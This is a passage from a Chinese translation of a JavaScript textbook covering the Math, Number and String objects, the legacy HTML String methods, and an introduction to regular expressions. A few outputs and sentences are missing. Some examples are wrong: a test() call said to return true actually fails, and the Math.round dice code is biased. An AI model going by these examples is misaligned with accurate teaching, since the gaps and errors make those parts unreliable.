| **Math.ceil(arg)** | *arg* 的上取整（大于或等于 *arg* 的最小整数） |
| **Math.cos(arg)** | *arg* 的余弦值 |
| **Math.exp(arg)** | *e* 的 *arg* 次幂 |
| **Math.floor(arg)** | *arg* 的下取整（小于或等于 *arg* 的最大整数） |
| **Math.log(arg)** | *arg* 的自然对数（以 *e* 为底的 *arg* 的对数） |
| **Math.max(arg1, arg2)** | *arg1* 与 *arg2* 中的较大值 |
| **Math.min(arg1, arg2)** | *arg1* 与 *arg2* 中的较小值 |
| **Math.pow(arg1, arg2)** | *arg1* 的 *arg2* 次幂 |
| **Math.random()** | 区间 [0,1] 内的随机数 |
| **Math.round(arg)** | 将 *arg* 四舍五入到最接近的整数的结果。如果 *arg* 的小数部分大于或等于 .5，则向上取整。否则，*arg* 向下取整。 |
| **Math.sin(arg)** | *arg* 的正弦值 |
| **Math.sqrt(arg)** | *arg* 的平方根 |
| **Math.tan(arg)** | *arg* 的正切值 |

**Math** 对象有几个方面需要牢记。三角函数方法以弧度为单位工作，因此在使用前，你需要将任何度数测量值乘以 π / 180。另外，由于浮点运算的不精确特性，你可能会注意到与预期结果存在微小偏差。例如，尽管 π 的正弦值为 **0**，但以下代码：

```javascript
alert(Math.sin(Math.PI));
```

给出的结果是


这个值非常接近零，但足以干扰敏感的计算。

看起来 **Math** 似乎没有提供计算以 *e* 以外为底的对数的能力。确实，它没有直接提供。然而，以下数学恒等式

```
log_a n  =  (log_e n) / (log_e a)
```

可用于计算任意底数的对数。例如，你可以这样计算以 2 为底的 64 的对数：

```javascript
var x = Math.log(64) / Math.log(2);
```

#### 随机数

由于 **Math.random()** 方法返回 0 到 1 之间的值，你必须规范化其返回值以适应应用程序所需的数字范围。获取 *m* 到 *n*（包含两端）范围内随机整数的一个简单方法如下：

```javascript
Math.round(Math.random() * (n - m)) + m;
```

因此，要模拟掷骰子，你会使用：

```javascript
roll = Math.round(Math.random() * (6 - 1)) + 1;
```

以这种方式生成随机数对于大多数应用来说已经足够，但如果需要“高质量”的随机性，则应使用更高级的技术。

#### 简化数学计算

在大量使用 **Math** 对象时，使用 **with** 语句通常很方便。这样做允许你使用 **Math** 属性而无需在其前加上 "Math." 前缀。以下示例（使用余弦定理计算三角形一边的长度）说明了这一概念：

```javascript
with (Math)
{
    var a = 3, b = 4, c;
    var angleA = atan(a / b);
    var angleB = atan(b / a);
    var angleC = PI / 2;
    c = pow(a, 2) + pow(b, 2) - 2 * a * b * cos(angleC);
    c = sqrt(c);
}
```

### Number 对象

**Number** 是与原始数字数据类型对应的内置对象。如第 3 章所述，所有数字都以 IEEE 754-1985 双精度浮点格式表示。这种表示法长 64 位，允许的浮点幅度范围从 ±1.7976×10^308 到 ±2.2250×10^-308。**Number()** 构造函数接受一个可选参数来指定其初始值：

```javascript
var x = new Number();
var y = new Number(17.5);
```

表 7-5 列出了作为 **Number** 对象属性提供的特殊数值。

#### 表 7-5：Number 对象的属性

| 属性 | 值 |
|----------|-------|
| Number.MAX_VALUE | 可表示的最大值 |
| Number.MIN_VALUE | 可表示的最小值 |
| Number.POSITIVE_INFINITY | 特殊值 **Infinity** |
| Number.NEGATIVE_INFINITY | 特殊值 **-Infinity** |
| Number.NaN | 特殊值 **NaN** |

这个对象唯一有用的方法是 **toString()**，它以字符串形式返回数字的值。当然，由于通常当需要将数字用作字符串时，它会自动转换为字符串，因此很少需要此方法。

### String 对象

**String** 是与原始字符串数据类型对应的内置对象。它包含大量用于字符串操作和检查、子字符串提取，甚至将字符串转换为标记 HTML（尽管不幸的是，不是面向标准的 XHTML）的方法。所有 **String** 方法的完整描述，包括示例，都包含在附录 B 中。这里我们重点介绍其中的大部分，并特别关注最常用的方法。

**String()** 构造函数接受一个可选参数来指定其初始值：

```javascript
var s = new String();
var headline = new String("Dewey Defeats Truman");
```

由于可以在原始字符串上调用 **String** 方法，程序员在实践中很少创建 **String** 对象。

**String** 的唯一属性是 **length**，它表示字符串中的字符数。

```javascript
var s = "String fun in JavaScript";
var strlen = s.length;
// strlen 被设置为 24
```

当字符串更改时，**length** 属性会自动更新，且无法由程序员设置。实际上，*没有*直接操作字符串的方法。也就是说，**String** 方法不会“就地”操作它们的数据。任何会更改字符串值的方法都会返回一个包含结果的字符串。如果你想更改字符串的值，你必须将字符串设置为该操作的结果。例如，使用 **toUpperCase()** 方法将字符串转换为大写需要以下语法：

```javascript
var s = "abc";
s = s.toUpperCase();
// s 现在是 "ABC"
```

调用 **s.toUpperCase()** 而不将 *s* 设置为其结果不会改变 *s* 的值。以下代码*不会*修改 *s*：

```javascript
var s = "abc";
s.toUpperCase();
// s 仍然是 "abc"
```

其他简单的字符串操作方法如 **toLowerCase()** 以相同的方式工作；忘记这一事实是新的 JavaScript 程序员常犯的错误。

#### 检查字符串

可以使用 **charAt()** 方法检查单个字符。它接受一个整数，指示要返回的字符的位置。由于 JavaScript 不区分单个字符和字符串，因此它返回一个包含所需字符的字符串。记住，与数组一样，JavaScript 字符串中的字符从零开始枚举；因此

```javascript
"JavaScript".charAt(1);
```

检索 "a"。你也可以使用 **charCodeAt()** 检索与特定字符关联的数值。由于 "a" 在 Unicode 中的值是 **97**，以下语句

```
"JavaScript".charCodeAt(1);
```

返回 **97**。

使用 **fromCharCode()** 方法可以很轻松地根据字符编码进行转换。与其他方法不同的是，该方法通常与通用对象 **String** 本身一起使用，而不是字符串实例。例如，

```
var aChar = String.fromCharCode(82);
```

会将变量 *aChar* 的值设置为 **R**。可以通过逗号分隔传入多个编码。例如，

```
var aString = String.fromCharCode(68,79,71);
```

会将 *aString* 设置为 "DOG"。

**注意** *对于任何传递给 **fromCharCode()** 方法的未知值，你可能会收到一个 **?** 值或一个奇怪的字符。*

**indexOf()** 方法接受一个字符串参数，并返回该参数在字符串中首次出现的索引。例如，

```
"JavaScript".indexOf("Script");
```

返回 **4**。如果找不到该参数，则返回 **–1**。该方法还接受一个可选的第二个参数，用于指定开始搜索的索引。指定后，该方法返回参数在起始索引处或之后首次出现的索引。例如，

```
"JavaScript".indexOf("a", 2);
```

返回 **3**。相关的方法是 **lastIndexOf()**，它返回作为参数给出的字符串最后一次出现的索引。它也接受一个可选的第二个参数，用于指示结束搜索的索引。例如，

```
"JavaScript".lastIndexOf("a", 2);
```

返回 **1**。如果未找到该字符串，此方法也返回 **–1**。

在 JavaScript 中有多种提取子字符串的方法。最好的方法是使用 **substring()**。**substring()** 的第一个参数指定所需子字符串开始的索引。可选的第二个参数指示所需子字符串结束的索引。该方法返回一个字符串，其中包含从给定索引开始到但不包括第二个参数指定的索引处的字符的子字符串。例如，

```
"JavaScript".substring(3);
```

返回 "aScript"，而

```
"JavaScript".substring(3, 7);
```

返回 "aScr"。**slice()** 方法是 **substring()** 的一个更强大的版本。它接受与 **substring()** 相同的参数，但允许使用负索引。负索引被视为从字符串末尾开始的偏移量。

**match()** 和 **search()** 方法使用正则表达式来执行更复杂的字符串检查。正则表达式的使用在[下一章](link)中讨论。

#### 操作字符串

对字符串可以执行的最基本操作是连接。使用 **+** 运算符连接字符串现在应该已经很熟悉了。**String** 对象还提供了一个 **concat()** 方法来实现相同的结果。它接受任意数量的参数，并返回将参数连接到调用它的字符串上得到的字符串。例如，

```
var s = "JavaScript".concat(" is", " a", " flexible", " language.");
```

将 "JavaScript is a flexible language." 赋值给变量 *s*，与以下代码相同：

```
var s = "JavaScript" + " is" + " a" + " flexible" + " language";
```

在解析预格式化字符串时非常有用的一个方法是 **split()**。**split()** 方法根据作为其第一个参数传入的分隔符将字符串拆分成单独的字符串。结果以数组形式返回。例如，

```
var wordArray = "A simple example".split(" ");
```

将 *wordArray* 赋值为一个包含三个元素的数组："A"、"simple" 和 "example"。将空字符串作为分隔符传入会将字符串拆分成包含单个字符的字符串数组。该方法还接受第二个参数，用于指定可以将字符串拆分成的最大元素数量。

#### 将字符串标记为传统 HTML

由于 JavaScript 通常用于操作网页，**String** 对象提供了一大组将字符串标记为 HTML 的方法。这些方法中的每一个都返回由一对 HTML 标签包围的字符串。请注意，返回的 HTML 不是符合标准规范的 HTML 4 或 XHTML，而更像是旧的物理样式 HTML 3.2。例如，**bold()** 方法在其调用的字符串周围放置 <**B**> 和 </**B**> 标签；以下代码

```
var s = "This is very important".bold();
```

将该字符串置于 *s* 中：

```
<B>This is very important</B>
```

你可能会想知道如何对字符串应用多个与 HTML 相关的方法。这可以通过链式方法调用来轻松实现。虽然链式方法调用可能看起来令人生畏，但在从字符串创建 HTML 标记时它们非常方便。例如，

```
var s = "This is important".bold().strike().blink();
```

将以下字符串赋值给 *s*：

```
<BLINK><STRIKE><B>This is important</B></STRIKE></BLINK>
```

当放置在 Web 文档中时，这会显示一个闪烁的、带删除线的粗体字符串。忽略这种字符串非常烦人的事实，该示例说明了方法调用如何可以"链接"在一起以提高效率。将调用串联编写比逐个在 *s** 上调用每个方法更容易。请注意方法是如何"由内而外"调用的，或者等效地说，从左到右调用。

各种 HTML **String** 方法对应于常见的 HTML 3.2 和浏览器特定的标签，如 <**BLINK**>。与 HTML 相关的 **String** 方法的完整列表可以在 *表 7-6* 中找到。

##### 表 7-6：与 HTML 相关的 String 方法

| 方法 | 描述 | 示例 |
| anchor("*name*") | 使用参数 name 作为相应属性的值，创建由 <**A**> 元素指定的命名锚点。 | var x = "Marked point".anchor("marker");<br>// <A NAME="marker">Marked point</A> |
| big() | 使用提供的字符串创建 <**BIG**> 元素。 | var x = "Grow".big();<br>// <BIG>Grow</BIG> |
| blink() | 尽管 Internet Explorer 不支持 <**BLINK**> 元素，仍使用提供的字符串创建由 <**BLINK**> 包围的闪烁文本元素。 | var x = "Bad Netscape".blink();<br>// <BLINK>Bad Netscape</BLINK> |
| bold() | 使用提供的字符串创建由 <**B**> 指示的粗体文本元素。 | var x = "Behold!".bold();<br>// <B>Behold!</B> |
| fixed() | 使用提供的字符串创建由 <TT> 指示的定宽文本元素。 | `var x = "Code".fixed(); // <TT>Code</TT>` |
| fontcolor(color) | 使用参数 color 指定的颜色创建 <FONT> 标签。传入的值应该是有效的十六进制字符串值或指定颜色名称的字符串。 | `var x = "green".fontcolor("green"); // <FONT COLOR="green">green</FONT>`<br>`var x = "Red".fontcolor("#FF0000"); // <FONT COLOR="#FF0000">Red</FONT>` |
| fontsize(size) | 接受由 size 指定的参数，该参数应该在 1–7 范围内或是 1–7 的相对 +/- 值，并创建 <FONT> 标签。 | `var x = "Change size".fontsize(7); // <FONT SIZE="7">Change size</FONT>`<br>`var x = "Change size".fontsize("+1"); // <FONT SIZE="+1">Change size</FONT>` |
| italics() | 创建斜体元素 <I>。 | `var x = "Special".italics(); // <I>Special</I>` |
| link(location) | 接受参数 location，并使用字符串作为链接文本形成带有 <A> 元素的链接。 | `var x = "click here".link("http://www.pint.com/"); // <A HREF="http://www.pint.com">click here</A>` |
| small() | 使用提供的字符串创建 <SMALL> 元素。 | `var x = "Shrink".small(); // <SMALL>Shrink</SMALL>` |
| strike() | 使用提供的字符串创建 <STRIKE> 元素。 | `var x = "Legal".strike(); // <STRIKE>Legal</STRIKE>` |
| sub() | 使用提供的字符串创建由 <SUB> 指定的下标元素。 | `var x = "test".sub(); // <SUB>test</SUB>` |
| sup() | 使用提供的字符串创建由 <SUP> 指定的上标元素。 | `var x = "test".sup(); // <SUP>test</SUP>` |

> 注意 你可能会注意到，几乎任何内容都可以传递给这些 HTML 方法。例如 "bad".fontcolor('junk') 会欣然创建包含标记 <FONT COLOR="junk">bad</FONT> 的字符串。这些方法不提供与 HTML 相关的范围或类型检查。

请注意在表 7-6 中，这些 JavaScript 方法如何生成大写甚至非标准的标记，如 <BLINK>，而不是符合 XHTML 的标签。事实上，许多方法如 **fontcolor()** 创建的标记字符串包含已弃用的元素，这些元素在 HTML 4 和 XHTML 的严格变体下已被逐步淘汰，转而支持基于 CSS 的呈现。然而，考虑到 XHTML 的不幸的缓慢采用以及最近才逐步改善的采用率

在整个网络上的CSS，这些元素的过渡在短期内不太可能发生。幸运的是，一旦这种情况发生，我们将拥有一套比这些**String**方法好得多的HTML相关JavaScript方法。文档对象模型将允许我们轻松创建和操作任何HTML元素，正如从[第10章](chapter-10)开始所讨论的那样。在结束本章之前，理解一个关于类型相关对象的微妙问题是很重要的。

#### 对象类型和原始类型

阅读本章后，应该清楚的是，正如[第3章](chapter3)所讨论的，每种原始类型都有一个相应的内置对象。这一点并不明显，因为原始数据值在其属性被访问时会被透明地转换为相应的对象。有两种情况你可能更愿意将变量声明为内置对象而不是使用原始类型。第一种是你计划向对象添加实例属性。因为你无法向原始数据添加实例属性，如果你希望这样做，你必须将变量声明为相应的对象。第二个原因是如果你希望将数据的引用传递给函数。因为JavaScript使用按值传递，原始数据的副本会传递给函数参数；函数无法修改原始数据。另一方面，对象是引用类型。被调用的函数接收引用的副本，因此可以修改原始数据。

除了这两种情况，没有特别的理由更倾向于使用布尔值、字符串或数字数据的对象版本而不是它们的原始对应版本。选择其中一个而不是另一个不太可能对性能或内存使用产生任何显著影响。程序员应该使用他们觉得最方便的任何一种。对网络上真实脚本的检查表明，绝大多数使用的是原始类型。

### 总结

内置对象是JavaScript语言本身提供的对象，例如**Array**、**Boolean**、**Date**、**Math**、**Number**和**String**。许多内置对象与语言支持的各种数据类型相关。程序员经常访问与复杂数据类型（如数组或字符串）相关的内置对象的方法和属性。**Math**和**Date**对象也常用于JavaScript应用程序中。然而，很多时候，原始类型是对象这一事实——就像JavaScript中的所有其他东西，包括函数——JavaScript程序员并未注意到。理解这些底层关系可以使你成为更好的JavaScript程序员。然而，如果你觉得你没有完全理解或不关心这一切的相互关联性，只想使用各种内置对象提供的方法和属性，你仍然会发现一个易于使用的强大功能库可供你使用。[下一章](next chapter)将探讨JavaScript的一个非常有用的方面：正则表达式。

## 第8章：正则表达式

### 概述

文本数据的操作是JavaScript中的一项常见任务。检查表单中输入的数据、创建和解析cookie、构造和修改URL以及更改网页内容都可能涉及对字符串的复杂操作。JavaScript中的文本匹配和操作由**String**对象提供，如[第7章](#)所讨论，以及*正则表达式*，这一功能允许你指定字符模式和字符串集，而无需显式列出它们。

正则表达式，有时简称为*regexps*或*regexes*，长期以来也是许多操作系统的一部分。不熟悉UNIX工具（如*grep*、*sed*、*awk*和*Perl*）的读者可能一开始会觉得正则表达式很奇怪，但很快就会认识到它们的实用性。如果你曾经在DOS中使用过**dir**命令或在UNIX中使用过**ls**命令，那么你很可能使用过“通配符”字符，如*或**?**。这些是原始的正则表达式！更深入研究过正则表达式，特别是Perl的读者，会发现JavaScript的正则表达式非常熟悉。

本章是对JavaScript **RegExp**对象的介绍。它涵盖了基本语法、常见任务以及正则表达式在脚本中更高级的应用。

#### 正则表达式的需求

考虑在网页表单中输入电话号码并验证的任务。

目标是在允许数据提交到服务器进行处理之前，验证输入的数据是否具有正确的格式。如果你只对验证北美格式为NNN-NNN-NNNN（其中N是数字）的电话号码感兴趣，你可能会编写如下代码：

```javascript
// 如果字符是数字则返回true
function isDigit(character)
{
    return (character >= "0" && character <= "9");
}

// 如果电话号码格式为NNN-NNN-NNNN则返回true
function isPhoneNumber(phone)
{
    if (phone.length != 12)
        return false;

    // 遍历字符串中的每个字符...
    for (var i=0; i<12; i++)
    {
        // 如果此处应该有一个破折号...
        if (i == 3 || i == 7)
        {
            // 如果没有则返回false
            if (phone.charAt(i) != "-")
                return false;
        }
        // 否则此处应该是一个数字...
        else
        {
            // 如果没有则返回false
            if (!isDigit(phone.charAt(i)))
                return false;
        }
    }

    return true;
}
```

对于这样一个看似简单的任务，这段代码量很大。代码远不够优雅，想象一下如果你想验证其他格式——例如，带分机号的电话号码、国际号码或省略破折号或区号的号码——会复杂得多。

正则表达式通过允许程序员指定一个字符串与之“匹配”的模式，大大简化了这类任务。这使得开发人员不必像我们在前面的示例中那样编写复杂且容易出错的文本匹配代码。但正则表达式不仅限于确定字符串是否与特定模式匹配（如前面列表中的NNN-NNN-NNNN）；如果字符串确实匹配，可以定位、提取甚至替换匹配的部分。这极大地简化了像URL、电子邮件地址、电话号码和cookie这样的结构化数据的识别和提取。几乎任何具有可预测格式的字符串数据都可以用正则表达式进行操作。

#### 正则表达式的概念

正则表达式指定一个字符模式。例如，你可以指定一个像我们看到的北美电话号码那样的模式，即三个数字后跟一个破折号，再后跟三个数字，然后一个破折号和另外四个数字。因为正则表达式设计得非常灵活，你也可以指定一个字符或字符组重复一定次数的模式，或者指定一个特定字符序列出现在字符串中特定位置（例如，在开头或结尾）的模式。

一旦你编写了一个正则表达式（模式），你就可以将字符串与之匹配。也就是说，将一个正则表达式应用于字符串将告诉你该字符串是否包含问题中的模式。例如，你可以编写一个正则表达式来指定电话号码必须具有的有效模式，另一个用于有效的电子邮件地址。当用户在表单中输入这些数据时，你可以将他的/她的输入与你的正则表达式进行匹配。如果用户输入的字符串与你的模式匹配，你可以允许表单提交；如果不匹配，你可以取消表单提交并提醒用户他/她输入的一些数据无效。我们将在讨论Web表单和验证的第14章中看到正则表达式的这种确切用法。现在我们将专注于如何指定可以检查字符串的模式。稍后，我们将讨论如何执行更高级的任务，例如替换与特定模式匹配的字符串部分。

> **注意** “正则表达式”这个术语来源于计算机科学中处理语言识别的一个分支。使用正则表达式可以匹配的字符串种类被称为“正则”，因为它们对于计算机来说非常容易识别。我们自己编写这样的模式匹配代码是直接但极其繁琐的，因此我们指定模式，计算机生成并运行识别代码。


#### JavaScript 正则表达式简介

正则表达式在 JavaScript 1.2 和 JScript 3.0 中通过 **RegExp** 对象引入，因此其大部分功能可通过 **RegExp** 方法来使用。不过，**String** 对象的许多方法也接受正则表达式作为参数；因此你会看到正则表达式在这两种场景中都被广泛使用。

正则表达式最常用的方式是通过字面量语法来创建，即构成模式的字符被斜杠（ `/` 和 `/` ）包围。例如，要创建一个匹配包含"http"的任意字符串的正则表达式，可以这样写：

```
var pattern = /http/;
```

阅读此模式的方式是：一个"h"，后跟一个"t"，再后跟一个"t"，再后跟一个"p"。任何包含"http"的字符串都会匹配此模式。

标志可用于紧跟在第二个斜杠之后，以改变模式的解释方式。例如，要指定模式不区分大小写，可以使用 **i** 标志：

```
var patternIgnoringCase = /http/i;
```

此声明创建了一个模式，它将匹配包含"http"以及"HTTP"或"HttP"的字符串。正则表达式常用的标志如**表 8-1** 所示，并将在本章的示例中加以说明。目前不必担心除 **i** 以外的其他标志。

**表 8-1：改变正则表达式解释方式的标志**

| 字符 | 含义 |
|---|---|
| **i** | 不区分大小写。 |
| **g** | 全局匹配。查找字符串中*所有*匹配项，而非仅*第一个*。 |
| **m** | 多行匹配。 |

正则表达式也可以通过 **RegExp()** 构造函数来声明。构造函数的第一个参数是包含所需模式的字符串。第二个参数是可选的，包含该表达式的特殊标志。前述两个示例可以等价地声明为

```
var pattern = new RegExp("http");
```

```
var patternIgnoringCase = new RegExp("http", "i");
```

当要匹配的模式直到运行时才能确定时，构造函数语法最为常用。你可能允许用户输入一个正则表达式，然后将包含该表达式的字符串传递给 **RegExp()** 构造函数。

**RegExp** 对象提供的最基本方法是 **test()**。此方法返回一个布尔值，指示作为参数传入的字符串是否匹配该模式。例如，我们可以测试

```
var pattern = new RegExp("http");

pattern.test("HTTP://WWW.W3C.ORG/");
```

返回 **false**，因为 *pattern* 仅匹配包含"http"的字符串。或者我们可以使用不区分大小写的模式进行测试，

```
var patternIgnoringCase = new RegExp("http", "i");

patternIgnoringCase.test("HTTP://WWW.W3C.ORG/");
```

返回 **true**，因为它在忽略大小写的情况下匹配包含"http"的字符串。当然，如果不使用返回值，你不会看到太多效果：

```
var patternIgnoringCase = new RegExp("http", "i");

alert(patternIgnoringCase.test("HTTP://WWW.W3C.ORG/"));
```

由于 JavaScript 的自动类型转换，你可以在正则表达式字面量上调用 **RegExp** 方法（就像在字符串字面量上调用 **String** 方法一样）。例如，

```
alert(/http/i.test("HTTP://WWW.W3C.ORG/"));
```

同样会弹出 **true**。

### 创建模式

目前的示例模式仅仅是检查特定子串的存在；它们并未展现我们之前提到的强大功能。正则表达式使用特殊的字符序列，使程序员能够创建更复杂的模式。例如，特殊字符提供了一种方式来表示某个字符或字符集应重复一定次数，或者字符串不得包含某个字符。

#### 位置指示符

第一组特殊字符可以视为*位置指示符*，即规定模式在待匹配字符串中必须处于特定位置的字符。这些字符是 **^** 和 **$**，分别表示字符串的开头和结尾。例如，

```
var pattern = /^http/;
```

仅匹配以"http"开头的字符串。以下调用返回 **false**：

```
pattern.test("The protocol is http");
```

**$** 字符产生相反的行为：

```
var pattern = /http$/;
```

此模式仅匹配以"http"结尾的字符串。你可以同时使用两个位置指示符来确保与所需模式完全匹配：

```
var pattern = /^http$/;
```

此正则表达式的含义是：字符串开头为一个"h"，后跟两个"t"，再后跟一个"p"，然后是字符串结尾。此模式仅匹配字符串"http"。

在进行匹配时，你需要非常注意正确使用位置指示符，因为正则表达式可能会匹配到意料之外的字符串。

#### 转义码

根据目前演示的正则表达式字面量语法，你可能会想如何指定包含斜杠的字符串，如"http://www.w3c.org/"。答案是，与字符串一样，正则表达式使用转义码来表示具有特殊含义的字符。转义码使用反斜杠字符（\\）指定。正则表达式中使用的转义码是字符串中使用的转义码的超集（正则表达式中有更多具有特殊含义的字符，如 **^** 和 **$**）。这些转义码列于**表 8-2** 中。你不必全部记住；随着我们进一步探索正则表达式的功能，它们的用法将变得清晰明了。

**表 8-2：正则表达式转义码**

| 转义码 | 匹配内容 |
|------|---------|
| `\f` | 换页符 |
| `\n` | 换行符 |
| `\r` | 回车符 |
| `\t` | 制表符 |
| `\v` | 垂直制表符 |
| `\/` | 正斜杠 / |
| `\\` | 反斜杠 \ |
| `\.` | 句点 . |
| `\*` | 星号 * |
| `\+` | 加号 + |
| `\?` | 问号 ? |
| `\|` | 竖线，又称管道符 \| |
| `\(` | 左括号 ( |
| `\)` | 右括号 ) |
| `\[` | 左方括号 [ |
| `\]` | 右方括号 ] |
| `\{` | 左花括号 { |
| `\}` | 右花括号 } |
| `\ooo` | 八进制值 OOO 表示的 ASCII 字符 |
| `\xHH` | 十六进制值 HH 表示的 ASCII 字符 |
| `\uHHHH` | 十六进制值 HHHH 表示的 Unicode 字符 |
| `\cX` | ^X 表示的控制字符，例如 `\cH` 表示 Ctrl-H |

使用适当的转义码，我们现在可以定义一个匹配"http://www.w3c.org/"（以及任何包含该字符串的其他字符串）的正则表达式：

```
var pattern = /http:\/\/www\.w3c\.org\//;
```

因为 `/` 在正则表达式字面量中具有特殊含义（它表示模式的开头或结尾），所以模式中所有正斜杠（/）都需要替换为它们的转义等价形式 \/。

需要记住的重要一点是，每当你要在模式中包含一个在正则表达式中具有特殊含义的字符时，必须使用它的转义码来替代。

#### 重复量词

正则表达式的重复量词允许你指定表达式中特定项可以或必须重复的次数。目前，可以认为"特定项"指的是"前一个字符"。这一区别将在本章后面变得清晰。作为重复量词的示例，*（星号）表示前一项可以出现零次或多次。前一项的零次或多次重复的任何序列都可以出现在模式匹配的字符串中。例如：

```
var pattern = /ab*c/;
```

将 * 理解为"重复零次或多次"。这样，我们可以将此模式理解为匹配任何包含一个"a"，后跟零次或多次重复的"b"，再后跟一个"c"的字符串。以下所有字符串都将匹配此表达式：

- ac
- abc
- abbbbbbbbbbbbbbbbbbbbbbbbc
- The letters abc begin the alphabet

类似地，**+** 指定前一个字符必须重复一次或多次。以下声明

```
var pattern = /ab+c/;
```

理解为一个"a"，后跟一次或多次重复的"b"，再后跟一个"c"。记住这个模式，你可以看到它匹配以下所有字符串：

- abc
- abbbbbc


#### 分组

注意表8-3所示的重复量词如何匹配“前一个项”特定次数。到目前为止，在所看到的示例中，“前一个项”都是单个字符。然而，JavaScript允许你轻松地将多个字符作为一个整体进行分组，类似于使用花括号将语句组合成块的方式。在正则表达式中对字符进行分组的最简单方法是使用圆括号。任何被圆括号包围的字符，对于特殊的正则表达式运算符来说，都被视为一个单元。例如，

```
var pattern = /a(bc)+/;
```

其含义是“a”后面跟着一个或多个重复的“bc”。圆括号将“b”和“c”组合在一起，共同对应于+号。此模式匹配任何包含“a”且紧跟一个或多个“bc”重复的字符串。

另一个例子是

```
var pattern = /(very){3,5} hot/;
```

此模式匹配包含“very”重复三次、四次或五次，后跟一个空格和单词“hot”的字符串。

#### 字符类

有时需要匹配一组可能字符中的任意一个。例如，要匹配电话号码，这组字符可能是数字；或者如果你想验证一个国家名称，有效的字符组可能就是字母。

JavaScript允许你通过将可能的字符放在方括号([ ])内来定义*字符类*。字符类中的任意字符都可以在字符串中匹配到，并且字符类被视为一个单元，就像带括号的分组一样。考虑以下模式：

```
var pattern = /[pbm]ill/;
```

通常，一个类[...]被解读为“组中的任意字符”，因此类**[pbm]**ill被解读为“p”或“b”或“m”后面跟着“ill”。此模式匹配“pill”、“billiards”和“paper mill”，但不匹配“chill”。

考虑另一个例子：

```
var pattern = /[1234567890]+/;
```

类**[1234567890]**是一个包含所有数字的类，+重复量词应用于它。因此，此模式匹配任何包含一个或多个数字的字符串。如果你希望指定一大组允许的字符，这种格式看起来可能会变得非常混乱，但幸运的是JavaScript允许你使用连字符(-)来表示一个值范围：

```
var pattern = /[0-9]+/;
```

这个正则表达式与前一个例子相同，只是写得更紧凑。

任何时候使用范围运算符时，你指定的都是有效ASCII值的范围。所以，例如，你可以这样做：

```
var pattern = /[a-z]/;
```

来匹配任何小写字母字符，或者：

```
var pattern = /[a-zA-Z0-9]/;
```

来匹配任何字母数字字符。JavaScript允许你将所有有效字符在一个字符类中按连续序列放置，如最后一个例子所示。它能正确解释这样的类。

事实是，虽然它看起来工作得很好，但我们的*isPhoneNumber()*函数存在一个正则表达式新手常忽略的微妙缺陷：它过于宽松。考虑以下例子：

```
alert(isPhoneNumber("The code is 839-213-455-726-0078. "));
```

由于我们在模式中没有指定任何位置信息，正则表达式匹配任何包含它的字符串，即使字符串的开头和结尾包含不匹配的数据。为了修正这个缺陷，我们使用$和^说明符：

```
function isPhoneNumber(phone) {
  var pattern = /^[0-9]{3}-[0-9]{3}-[0-9]{4}$/;
  return pattern.test(phone);
}
```

现在，只有当电话号码前后没有多余字符时，它才会返回**true**。

作为正则表达式应用的另一个例子，我们创建一个模式来匹配一个不区分大小写的用户名：以字母字符开头，后跟零个或多个字母数字字符以及下划线和短横线。以下正则表达式定义了这样的模式：

```
var pattern = /^[a-z][a-z0-9_-]*/i;
```

这将匹配例如“m”、“m10-120”、“abracadabra”和“abra_cadabra”，但不匹配“_user”或“10abc”。注意最后将短横线放在字符类中，以防止它被解释为范围运算符。

#### 否定字符类

在描述“否定”字符类时，也可以使用方括号，即指定哪些字符*不能*出现的类。否定类通过在类的开头放置一个脱字符号(^)来指定。例如，

```
var pattern = /[^a-zA-Z]+/;
```

将匹配一个或多个非字母字符的序列，例如“314”、“!%&^”或“_0”。要使字符串匹配前面的表达式，它必须包含至少一个非字母字符。

在匹配或解析以某个值分隔的字段时，否定字符类非常有用。有时，没有优雅的替代方法。例如，如果不使用否定字符类，要编写一个干净的正则表达式来检查一个字符串是否包含五个逗号分隔的字符串*而不*使用否定字符类并不直观，但使用否定字符类就很简单了，如下所示：

```
var pattern = /[^,]+,[^,]+,[^,]+,[^,]+,[^,]+/;
```

解读为：一个或多个非逗号字符，后跟一个逗号，然后是一个或多个非逗号字符，依此类推。你甚至可以更简洁地写出这个模式：

```
var pattern = /[^,]+(,[^,]+){4}/;
```

你可以测试这些模式是否有效：

```
alert(pattern.test("peter, paul, mary, larry")); // 显示 false
alert(pattern.test("peter, paul, mary, larry, moe")); // 显示 true
```

这是一个重要的教训：如果你在为特定任务编写正则表达式时遇到困难，可以尝试先使用否定字符类编写表达式。它常常能指引你找到更简洁的解决方案。

#### 常用字符类

常用的字符类有简写转义码。一个特别有用的符号是句点，它匹配除换行符外的*任意*字符。例如，

```
var pattern = /abc..d/;
```

将匹配“abcx7d”或“abc_-d”。其他常用的类包括\s（任何空白字符）、\S（任何非空白字符）、\w（任何单词字符）、\W（任何非单词字符）、\d（任何数字）和\D（任何非数字）。（注意这个模式：简写的大写版本是小写的相反含义）。完整的字符类列表在表8-4中给出。

| 字符 | 含义 |
| :--- | :--- |
| [chars] | 括号内明确指定或作为范围表示的任意一个字符。 |
| [^chars] | *不*在括号内明确指定或作为范围表示的任意一个字符。 |
| . | 除换行符外的任意字符。 |
| \w | 任何单词字符。等同于[a-zA-Z0-9_]。 |
| \W | 任何非单词字符。等同于[^a-zA-Z0-9_]。 |
| \s | 任何空白字符。等同于[ \t\n\r\f\v]。 |
| \S | 任何非空白字符。等同于[^ \t\n\r\f\v]。 |
| \d | 任何数字。等同于[0-9]。 |
| \D | 任何非数字。等同于[^0-9]。 |
| \b | 一个单词边界。\w和\W之间的空“位置”。 |
| \B | 一个非单词边界。单词字符之间的空“位置”。 |
| [\b] | 一个退格符。 |

我们可以使用这些简写来编写我们**isPhoneNumber()**函数的一个更简洁的版本：

```
function isPhoneNumber(phone) {
  var pattern = /^\d{3}-\d{3}-\d{4}$/;
  return pattern.test(phone);
}
```

我们将每个[0-9]字符类替换为其简写\d。

#### 替代项

定义有用模式所需的最后一个主要工具是|，它表示多个项目的逻辑或。例如，要匹配一个以


### test()

我们在本章中已经多次见过的最简单**RegExp**方法就是**test()**。这个方法返回一个布尔值，指示给定的字符串参数是否与正则表达式匹配。这里我们构造了一个正则表达式，然后用它来测试两个字符串：

```
var pattern = new RegExp("a*bbbc", "i"); // case-insensitive matching
alert(pattern.test("1a12c")); // displays false
alert(pattern.test("aaabBboded")); // displays true
```

#### 子表达式

**RegExp**对象提供了一种简便的方法来提取与模式部分匹配的字符串片段。这是通过对模式中希望提取的部分进行分组（用括号括起来）来实现的。例如，假设你希望从如下所示的字符串中提取名字和电话号码：

> *名字 姓氏 NNN-NNNN*

其中*Ns*代表电话号码的数字。

